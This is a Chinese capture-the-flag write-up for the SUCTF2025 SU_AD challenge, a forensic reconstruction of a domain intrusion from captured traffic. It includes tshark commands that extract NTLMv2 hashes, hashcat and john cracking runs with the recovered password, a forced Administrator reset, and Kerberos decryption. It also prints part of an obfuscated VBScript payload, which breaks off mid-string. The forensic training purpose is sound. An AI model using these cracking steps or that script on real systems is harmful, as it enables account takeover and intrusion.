# SUCTF2025-misc-SU_AD-先知社区

> **来源**: https://xz.aliyun.com/news/16954  
> **文章ID**: 16954

---

# SU\_AD

> 一整个域渗透

思路：

观察流量发先存着 smb2 流量，现在先解密 NTLM 协议，就是要找到到用户名的密码，需要寻找一些字段信息并用 hashcat 进行爆破，组和格式如下，tshark 提取命令如下

```
username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response 
```

```
tshark -n -r SU_AD-new.pcapng -Y "ntlmssp.messagetype == 0x00000003" -T fields -e ntlmssp.auth.username -e ntlmssp.auth.domain -e ntlmssp.ntlmv2_response.ntproofstr -e ntlmssp.auth.sesskey -e smb2.sesid

tshark -n -r SU_AD-new.pcapng -Y "ntlmssp.messagetype == 0x00000002" -T fields -e ntlmssp.ntlmserverchallenge
```

```
# username domain ntproofstr sessionkey sessionid
>tshark -n -r SU_AD-new.pcapng -Y "ntlmssp.messagetype == 0x00000003" -T fields -e ntlmssp.auth.username -e ntlmssp.auth.domain -e ntlmssp.ntlmv2_response.ntproofstr -e ntlmssp.auth.sesskey -e smb2.sesid
sk      sk.com  0233f3f42302daa392aee9bb52a6887c        9a14eb9bf2d9c879ac0e7b9b94272425
sk      sk.com  3d83dd54cff0f77715b97e7ae985813f        751ec32df06a178823929ea7ff1744fc

# ntlmserverchallenge
>tshark -n -r SU_AD-new.pcapng -Y "ntlmssp.messagetype == 0x00000002" -T fields -e ntlmssp.ntlmserverchallenge
a780092344838bb2
b7325db726cdddbe
```

手工分析，先过滤 ntlmssp.auth.domain，发现 Domain name 和 User name

​​

> Domain name：sk.com
>
> User name：sk

并且找到，NTproofstring 和 modifiedntlmv2response

​​

```
NTproofstring：3d83dd54cff0f77715b97e7ae985813f
modifiedntlmv2response：3d83dd54cff0f77715b97e7ae985813f01010000000000002d2c49c4b762db014a8fd14f8291865d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008002d2c49c4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000
```

然后就差 ServerChallenge ，继续找，过滤 ntlmssp.ntlmserverchallenge，可以发现

​​

```
ServerChallenge：b7325db726cdddbe
```

然后拼接一下，这里要注意 modifiedntlmv2response 前面一部分就是 NTproofstring，要手动删除一下

```
sk::sk.com:b7325db726cdddbe:3d83dd54cff0f77715b97e7ae985813f:01010000000000002d2c49c4b762db014a8fd14f8291865d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008002d2c49c4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000
```

然后使用 hashcat 进行爆破，将上面拼接好的放入 2.txt

```
.\hashcat.exe -m 5600 .\2.txt .\rockyou.txt -o out3.txt --force
```

```
SK::sk.com:b7325db726cdddbe:3d83dd54cff0f77715b97e7ae985813f:01010000000000002d2c49c4b762db014a8fd14f8291865d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008002d2c49c4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000:Eminem01
```

​​

得到密码，Eminem01

使用 john 破解

```
❯ cat test.hash
sk::sk.com:b7325db726cdddbe:3d83dd54cff0f77715b97e7ae985813f:01010000000000002d2c49c4b762db014a8fd14f8291865d000000000200040053004b00010004004400430004000c0073006b002e0063006f006d0003001200440043002e0073006b002e0063006f006d0005000c0073006b002e0063006f006d00070008002d2c49c4b762db0106000400020000000800300030000000000000000100000000200000a6b014bf8a1f09368502041ded7fceb82c8ed41c09c2d199ee04b8421f0b0e9c0a001000000000000000000000000000000000000900160068006f00730074002f0073006b002e0063006f006d000000000000000000
❯ john test.hash --wordlist=rockyou.txt
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
Eminem01         (sk)
```

然后将 Eminem01 作为 NTLMSSP 的 Password 就能解密包裹在 NMF 中的 GSS-API 这部分流量：

​​

可以发现这里是在修改 Administrator 的密码（没看太懂）结合编码规则：[[MS-ADTS]：unicodePwd |Microsoft 学习](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/6e803168-f140-4d23-b2d3-c3a8ab5917d2)，可以提取出密码为 `1202)78M5CcE=+!2`​

> 这里是 DACL 滥用， 这是个强制改密的操作，参考
>
> [ForceChangePassword | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

​​

可以发现下面都是 Kerberos 认证的流量，是通过 psexec 脚本产生的 smb 流量，并且是 Administrator 用户进行认证的，那么制作 Administrator 用户的 keytab 即可进行解密

工具：[TheRealAdamBurford/Create-KeyTab：创建 KeyTab PowerShell 脚本](https://github.com/TheRealAdamBurford/Create-KeyTab)

[通过 Wireshark 解密 Kerberos 票据 - JICEY - 博客园](https://www.cnblogs.com/jicey/p/18211185)

​​

这里用户名大小写敏感，要注意下

​​

然后将 keytab 文件导入 Wireshark 即可解密 DCERPC 流量

​​

然后过滤一下，dcerpc ，发现 VBScript 文件，提取出来，

​​

​​

```
DIM DONaftmeCVwZjslWGWeGIomyhR, cXHliILPnAHELXJJqAtHxZuRaZ, ueXifQyILAhUJUoDERsswozhoK
SUb NroRYtGPyDKYxINsHYPjyHKNhz
DoNaFtMEcvwZjsLwgweGiomyhR = "58956/867*876960/8352*780331/7159*-5621+5653*407088/4112*2236-2125*6324-6215*-6084+6193*2331-2234*3955-3845*369100/3691*82060/8206*3066-2967*992562/8942*7405-7296*-9496+9605*104663/1079*864380/7858*-138+238*-9311+9343*7213-7152*5500-5468*9407-9341*1504-1407*283130/2462*5210-5109*6457-6403*-614+666*307847/3709*-9292+9408*10010-9896*601965/5733*-1277+1387*3271-3168*-9171+9239*385012/3812*-225+324*-6249+6360*9350-9250*182103/1803*630-590*18054/531*5786-5705*9110-8988*252448/2254*8335-8236*-6414+6500*99750/1995*472176/4372*43407/371*5982-5892*383897/5407*7391-7334*-6472+6523*-8257+8356*349174/7126*7964-7845*-8544+8595*1582-1481*1863-1758*-8424+8477*613656/5682*900415/8915*254890/3590*3209-3124*8519-8416*5697-5596*4583-4516*-6134+6199*-479+595*735372/7428*113245/1595*5319-5262*596000/7450*-3712+3793*448320/9340*9382-9300*8415-8338*-9508+9597*928898/8522*441612/3807*387806/3998*460570/5830*-2043+2128*373-324*353808/7371*378000/3780*-2309+2393*704435/7915*474861/9311*367659/4539*-1607+1694*1866-1746*3728-3675*4839-4742*172312/2534*484640/4660*305270/6230*-129+210*-7307+7394*-4982+5052*583833/8223*179363/2161*95256/1323*980869/9167*17950/359*-2654+2737*238464/4968*445342/5431*-1840+1962*339714/4194*-1637+1687*237540/3210*-3141+3213*4955-4882*360058/5374*9612-9563*-8710+8763*5383-5310*438771/6359*314391/4083*-796+850*570592/6484*656-586*9557-9457*890-778*505484/5158*-4292+4401*600568/7324*-1913+2031*-7904+8004*-4839+4890*-7085+7163*5718-5619*891450/9905*724305/6645*2381-2261*8374-8270*375210/4169*257367/2127*271201/5117*6070-6016*2079-1982*-9085+9173*3837-3772*9673-9612*6442-6408*299177/7297*2894-2884*66160/6616*890-817*8985-8883*5152-5120*290920/4156*210210/2002*-1182+1290*8837-8736*153387/2223*-3979+4099*825090/7858*-2833+2948*-8273+8389*-7851+7966*9366-9326*-9456+9490*452317/6751*496364/8558*169740/1845*148509/1707*1303-1198*926-816*226600/2266*884-773*-4549+4668*-7851+7966*100832/1096*300468/3577*8301-8200*859029/7881*-7420+7532*-8734+8826*160055/1345*4123-4018*-1520+1630*300400/3004*2180-2069*1198-1079*3402-3287*406440/9032*-5733+5844*689920/7040*-6649+6755*863348/8548*8252-8153*2551-2435*8557-8512*5089-5033*6152-6051*-311+365*8234-8133*-3461+3518*357408/3504*397040/7090*442035/4465*-2585+2630*377450/7549*-1003+1051*858432/8416*578646/5673*2210-2165*-3894+3946*-330+432*9080-9025*2268-2170*323550/7190*106134/1862*405426/8274*884834/9122*-4869+4923*-4453+4498*49827/977*-4391+4439*-1071+1169*1406-1309*455800/9116*-9560+9662*304289/3137*-1087+1135*-7448+7504*4493-4392*1468-1419*300700/3100*232438/5053*497340/4605*-5105+5216*482-379*-3616+3650*-5700+5741*9908-9876*668892/7963*772096/7424*595294/5894*-9530+9640*16060/1606*232352/7261*1149-1117*109728/3429*8742-8710*5057-4952*798820/7262*1011-899*-2602+2719*-9774+9890*452270/6461*3995-3890*6715-6607*9239-9138*214048/6689*-1641+1702*94720/2960*163778/4817*-830+897*9618-9560*-5711+5803*266-179*903000/8600*-524+634*179900/1799*5196-5085*3073-2954*765095/6653*4315-4223*417732/4973*-9444+9545*628058/5762*-5234+5346*270112/2936*984844/8276*5816-5711*793100/7210*-4159+4259*4820-4709*-8300+8419*974625/8475*29970/666*324453/2923*-8520+8618*-9633+9739*-4304+4405*2386-2287*7377-7261*2155-2110*7780-7724*2465-2364*-2367+2421*9285-9184*7031-6974*4754-4652*763-707*-9831+9930*292095/6491*148050/2961*-4965+5013*-6568+6670*34782/341*217080/4824*227344/4372*8774-8672*8408-8353*3204-3106*-2090+2135*275367/4831*9416-9367*8662-8565*8217-8163*9735-9690*420597/8247*7530-7482*-1326+1424*9980-9883*4468-4418*8655-8553*2370-2273*-4804+4852*-3215+3271*5517-5416*120638/2462*507019/5227*206724/4494*699732/6479*282384/2544*-9214+9317*297500/8750*14120/1412*-4785+4817*-9717+9749*-4160+4192*-6898+6930*-7501+7584*-612+713*1846-1730*7135-7103*1395-1290*5165-5055*631879/7613*-5984+6100*-7830+7944*9180-9079*902-805*-7137+7246*-6168+6200*86071/1411*126848/3964*1012-945*4397-4283*-9390+9491*-2531+2628*1089472/9392*5297-5196*59961/759*9682-9584*2918-2812*451773/4473*543807/5493*-8802+8918*3462-3422*-3504+3538*607295/9343*563992/8294*9083-9004*-9538+9606*325974/4939*1221-1175*-5928+6011*749-633*-4556+4670*199071/1971*6582-6485*5341-5232*-3318+3352*399258/9738*6088-6078*-6318+6350*-6395+6427*-6528+6560*-4725+4757*1007370/9594*902550/8205*-3183+3266*-6687+6803*22116/194*384204/3804*7029-6932*301712/2768*-2927+2973*1162-1083*-6432+6544*489547/4847*-1197+1307*8720/872*84192/2631*2731-2699*253312/7916*1519-1487*-6016+6121*234080/2128*4303-4220*225620/1945*73416/644*6911-6810*546401/5633*446137/4093*4735-4689*-9602+9718*-2754+2875*-1416+1528*243410/2410*27084/444*163456/5108*48608/992*179168/5599*70668/1812*3360-3276*-5032+5153*789-677*833654/8254*-3644+3710*7294-7189*837870/7617*-9827+9924*7812-7698*-8012+8133*2749-2739*216576/6768*230144/7192*-5566+5598*-8836+8868*762930/7266*230560/2096*-3905+3988*-3970+4086*168720/1480*351682/3482*150932/1556*-6123+6232*7708-7662*-3358+3434*523920/4720*953801/9833*10100/101*-9021+9091*4509-4395*615939/5549*6816-6707*171080/2444*-7214+7319*-8712+8820*942-841*238600/5965*9194-9089*412940/3754*681968/6089*-9419+9536*-8667+8783*298270/4261*639765/6093*-6616+6724*-4671+4772*-3788+3829*1703-1693*3785-3753*114336/3573*8340-8308*111584/3487*-3793+3907*3928-3827*5456-5359*3190-3090*8770-8704*6935-6814*69020/595*788103/7803*-8824+8939*5301-5269*609085/9985*8256-8224*216720/2064*2063-1953*13446/162*179800/1550*3058-2944*986265/9765*-9167+9264*-3361+3470*258980/5630*-4006+4088*-3117+3218*643013/6629*1910-1810*361520/9038*-4032+4073*-5979+5989*-9353+9363*-8339+8371*-3322+3354*17440/545*26912/841*8171-8088*900920/8920*-6348+6464*15040/470*-1554+1665*121088/1376*-716+793*3232-3156*92224/2882*-5366+5427*217440/6795*275236/4108*247608/2172*215938/2138*-4337+4434*-7186+7302*20099/199*-8823+8902*-3865+3963*7609-7503*-1691+1792*-90+189*149176/1286*9686-9646*34986/1029*-7855+7932*1611-1496*375120/3126*-5435+5544*775224/7178*-165+215*-4060+4106*10019-9951*-4912+4991*8831-8754*-7642+7710*9938-9827*-1161+1260*-8181+8298*8257-8148*6898-6797*136290/1239*-3933+4049*113016/3324*4660-4619*1404-1394*-6101+6133*4499-4467*-8804+8836*-8369+8401*-5604+5687*8063-7962*752376/6486*438-406*1093350/9850*315354/4043*437340/3940*716100/7161*-6730+6831*104320/3260*297436/4876*223968/6999*4316-4205*-5400+5488*300993/3909*637944/8394*6488-6442*-6499+6566*259578/2277*-9651+9752*-7086+7183*52432/452*2733-2632*372876/5404*-7464+7572*290274/2874*8532-8423*427836/4236*-7421+7531*-1372+1488*115360/2884*-3051+3085*-4875+4973*94090/970*567640/4936*1008182/9982*7585-7531*5326-5274*6198-6164*6429-6388*77200/7720*-4260+4292*171136/5348*-5195+5227*9546-9514*6553-6442*-5617+5695*-3349+3460*635800/6358*-8241+8342*2068-2022*8228-8128*5880-5783*4896-4780*-2585+2682*3783-3699*-522+643*-6125+6237*-7352+7453*107456/3358*-5515+5576*4868-4836*333098/9797*-5746+5844*1903-1798*-7068+7178*259992/5652*785372/8014*-2895+2992*-2961+3076*7871-7770*153954/2851*-4454+4506*-8576+8610*7995-7985*283232/8851*4378-4346*9865-9833*159584/4987*170052/1532*6690-6612*1079-968*244700/2447*1378-1277*267122/5807*9839-9729*-4587+4698*4211-4111*7833-7732*-8203+8287*6932-6811*4532-4420*-1940+2041*6056-5956*2535-2449*-3656+3753*-292+400*-6231+6348*-8236+8337*-9397+9429*606889/9949*6111-6079*6588-6474*2960-2859*2049-1952*-3716+3816*-966+1032*55660/460*4385-4269*-4826+4927*320620/2788*40490/4049*-9597+9629*1289-1257*7646-7614*9420-9388*503052/7622*2582-2485*833290/7246*-102+203*-8525+8579*429936/8268*632937/9173*-5401+5511*3831-3732*567654/5114*-7254+7354*885871/8771*116288/3634*112057/1837*-2793+2825*1064-953*4384-4306*146409/1319*-6516+6616*8006-7905*375866/8171*-4212+4328*1904-1803*9310-9190*258-142*92550/9255*-5752+5784*-386+418*7153-7121*4905-4873*92450/9245*6698-6666*-4787+4819*-8202+8234*318080/9940*-9782+9861*-4566+4676*2961-2929*400821/5809*-1562+1676*5792-5678*540126/4866*10081-9967*60640/1895*177612/2166*922130/9130*2222-2107*6447-6330*437962/4018*394304/3904*229408/7169*1139-1061*-1492+1593*2558-2438*2305-2189*9295-9285*4671-4639*-9516+9548*119296/3728*-2130+2162*551867/6649*784366/7766*-200+316*2860-2828*9611-9500*5872-5774*953364/8994*-2778+2862*1711-1610*596850/5190*2206-2090*1632-1554*1810-1709*448273/3767*-402+475*2916-2806*-9617+9732*275848/2378*1516-1484*598959/9819*-6079+6111*568852/8012*-5843+5944*7778-7662*-2006+2085*75950/775*4922-4816*844865/8365*-7025+7124*5235-5119*7937-7897*307190/9035*-9162+9249*834855/7951*4670-4560*-4045+4154*-5775+5878*-9104+9213*-2570+2686*-672+787*1459-1401*266418/2337*752247/6777*-2835+2946*-7951+8067*-4829+4921*3683-3616*-6898+7003*51666/474*-3598+3716*423950/8479*259724/4478*183918/2114*370125/3525*536690/4879*282336/5536*-6794+6844*1857-1762*2276-2197*335984/4048*274-192*-1488+1589*6946-6847*-7954+8065*5153-5035*802344/7944*-5951+6065*524777/4337*660218/9854*2157-2046*109450/995*7417-7315*335370/3194*1932-1829*597987/5111*552216/4844*5707-5610*3283-3167*554085/5277*-6889+7000*-7642+7752*261392/3844*4904-4807*7904-7788*-2128+2225*8050-7984*3053-2956*380-281*1012220/9460*5002-4885*821520/7335*-6393+6439*17889/267*305-191*241188/2388*4022-3925*-7146+7262*-2033+2138*-1364+1475*-4199+4309*-2096+2163*2975-2867*427770/4410*409860/3564*271285/2359*-1551+1629*-9426+9523*7521-7412*3561-3460*8249-8188*250444/7366*9355-9321*4881-4781*617204/6298*476574/4863*1756-1701*313200/5800*-8810+8862*311760/6495*401648/7724*6795/151*646506/6597*88440/1608*-2738+2788*-4548+4649*-7774+7819*-5449+5501*-1414+1464*-3939+4041*6863-6766*-3846+3891*5825-5728*582679/6007*-4267+4316*103194/1911*8629-8584*6418-6362*915389/9437*546630/9590*497200/9944*486766/4967*761409/7691*199968/4166*7116-7062*-7739+7793*266034/2634*-5427+5476*1025-976*4396-4362*-3079+3113*9899-9865*-667+708*7508-7498*8228-8196*7779-7747*-7465+7497*146528/4579*8111-8038*8451-8349*9168-9136*653-584*341772/2998*-328+442*126730/2755*8520-8442*388557/3321*455620/4180*76440/780*291183/2883*607050/5325*8984-8952*-7483+7543*-6667+6729*92608/2894*-5472+5520*66304/2072*-9454+9538*-8006+8110*253914/2514*7232-7122*20380/2038*-6782+6814*270048/8439*85280/2665*316032/9876*5244-5212*31680/990*215264/6727*1069-1037*-8077+8146*908580/7970*-2763+2877*117392/2552*475566/7098*907200/8400*-1697+1798*-7105+7202*9889-9775*975-965*5875-5843*3248-3216*3267-3235*3690-3658*-5288+5320*281088/8784*204064/6377*65312/2041*130543/1097*-8554+8652*418443/4143*-9566+9675*124553/1859*153825/1465*5265-5156*763048/6578*-1079+1200*226464/2022*827695/8195*453678/5466*5253-5137*734958/6447*398685/3797*-499+609*874985/8495*311264/9727*-1337+1398*3645-3613*235144/4199*68250/6825*47424/1482*-2062+2094*111232/3476*-2794+2826*8615-8583*182784/5712*16256/508*59776/1868*203682/2454*748309/7409*-6674+6790*-8120+8152*3112-3001*-304+402*287578/2713*-1924+1991*451764/4183*-3146+3243*-5298+5413*159160/1384*-1835+1867*-512+573*68544/2142*211083/2973*-8950+9051*-1373+1489*768275/9725*9426-9328*-8763+8869*-684+785*7774-7675*32016/276*-3453+3493*67592/1988*7725-7638*48825/465*632940/5754*1572-1463*885388/8596*-66+175*807-691*9902-9787*-3289+3347*-8905+9019*655455/5905*3210-3099*6617-6501*2695-2603*782199/7901*538440/5128*-7371+7480*789892/6694*-485+535*-1310+1368*-9673+9760*-2590+2695*-2070+2180*-2827+2878*359000/7180*-3376+3471*-9299+9378*174881/2107*-9